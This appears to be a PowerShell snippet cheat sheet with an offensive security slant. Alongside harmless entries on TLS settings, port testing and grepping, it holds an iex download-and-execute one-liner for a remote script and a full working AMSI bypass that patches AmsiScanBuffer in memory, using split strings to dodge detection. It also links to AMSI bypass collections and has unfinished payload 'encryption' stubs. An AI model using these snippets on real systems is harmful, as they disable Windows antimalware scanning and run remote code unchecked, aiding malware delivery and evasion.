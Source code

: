 # Enable support of TLS 1.2
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

# Download a script from an HTTP server
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/microsoft/ExPerfAnalyzer/main/ExPerfAnalyzer.ps1')
```

# Test on open/close port
```powershell
Test-NetConnection -Port 389 -InformationLevel "Detailed" <ip> 
```
- [Test-NetConnection](https://docs.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection)

# Patching amsi.dll AmsiScanBuffer by rasta-mouse
```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
- [AMSI.fail](https://amsi.fail/)
- [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
- [Small modification to Rastemouse's AmsiScanBuffer bypass to use bytes.](https://gist.github.com/FatRodzianko/c8a76537b5a87b850c7d158728717998)


# Payload encryption/decryption
## Encryption (WIP)
```powershell
$File="C:\Windows\System32\calc.exe"
#$Password = "LCSE39VzqmSL8fqE"

#$SecureStringPwd = ConvertTo-SecureString $Password -AsPlainText -Force

$RawBytes = Get-Content -Path $File -Encoding byte -Raw
#$B64RawBytes = [String][Convert]::ToBase64String($RawBytes)
#$SecureStringB64RawBytes = ConvertTo-SecureString $B64RawBytes -AsPlainText -Force

#$EncryptedRawBytes = ConvertFrom-SecureString -SecureString $SecureStringB64RawBytes -SecureKey $SecureStringPwd

# Set-Content -Encoding byte -Path "C:\calc.exe.encrypted" -Value $SecureStringB64RawBytes

$BinaryWriter = [System.IO.BinaryWriter]::new([System.IO.File]::Create("C:\calc.exe.encrypted"))
$BinaryWriter.Write($RawBytes)
$BinaryWriter.Close()
```
## Decryption (WIP)
```powershell
$File = "C:\calc.exe.encrypted"
# $Password = "LCSE39VzqmSL8fqE"
# $SecureStringPwd = ConvertTo-SecureString $Password -AsPlainText -Force

$EncryptedRawBytes = Get-Content -Path $File -Encoding byte -Raw
# $SecureStringData = ConvertTo-SecureString -String $EncryptedData -SecureKey $SecureStringPwd

# $BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($SecureStringData)
# $UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

# Set-Content -Encoding byte -Path "C:\calc.exe" -Value $EncryptedData

$BinaryWriter = [System.IO.BinaryWriter]::new([System.IO.File]::Create("C:\calc.exe"))
$BinaryWriter.Write($EncryptedRawBytes)
$BinaryWriter.Close()
```

# How to grep in PowerShell 
```powershell
Select-String -Path "*.log" -Pattern "EMAIL_ADDRESS"
```
- [How to Use PowerShell Grep (Select-String)](https://adamtheautomator.com/powershell-grep/)
